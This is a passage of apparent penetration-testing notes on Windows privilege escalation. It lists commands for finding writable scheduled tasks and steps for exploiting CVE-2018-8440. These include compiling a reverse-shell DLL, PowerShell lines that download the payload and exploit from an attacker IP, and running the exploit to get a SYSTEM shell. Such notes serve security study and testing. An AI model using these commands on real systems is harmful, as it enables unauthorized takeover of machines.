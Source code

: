 I haven't really used this beyond PowerUp, but these pages detail what all you can do with it:  
https://kalilinuxtutorials.com/powersploit-a-powershell-post-exploitation-framework/
https://resources.infosecinstitute.com/powershell-toolkit-powersploit/

#### Scheduled Tasks - Writable Task Objects

1. List scheduled tasks:

   ```bash
   schtasks /query /fo LIST /v
   ```

2. Find any tasks that can be modified AND run as a user with elevated permissions

   ```bash
   accesschk.exe /accepteula -uwcqv "Authenticated Users" *   
   ```

3. Change the task to point to a malicious executable.

#### Scheduled Tasks - ALPC Task Scheduler LPE

CVE-2018-8440  

1. Check write access to c:\windows\tasks

   ```powershell
   icacls c:\windows\tasks
   ```

2. Download the appropriate version of the ALPC_DiagHub exploit:  https://github.com/realoriginal/alpc-diaghub   

3. Use the DLL Reverse Shell code in ~/opt/paylods/windll_revshell.cpp and modify the IP and port for the return shell, then compile based on the version of windows:

   ```bash
   # 64 bit
   x86_64-w64-mingw32-g++ payload.cpp -o payload.dll -lws2_32 -shared
   ```

4. Copy the compiled DLL and the ALPC executable to the target, start a netcat listener and run the exploit:

   ```powershell
   powershell -c "(New-Object System.Net.WebClient).DownloadFile('http://10.250.226.250/shell.dll','C:\coyote\shell.dll')"
   
   powershell -c "(New-Object System.Net.WebClient).DownloadFile('http://10.250.226.250/ALPC_DiagHub.x64.exe','C:\coyote\ALPC_DiagHub.x64.exe')"
   
   # Exploit, the RTF file can be anything
   # The shell will hang on this command but the reverse shell should connect as SYSTEM
   cmd /c alpc.exe payload.dll .\coyote.rtf 
   ```

#### Unquoted Service Paths

1. Show services that start up automatically, look for unquoted file paths
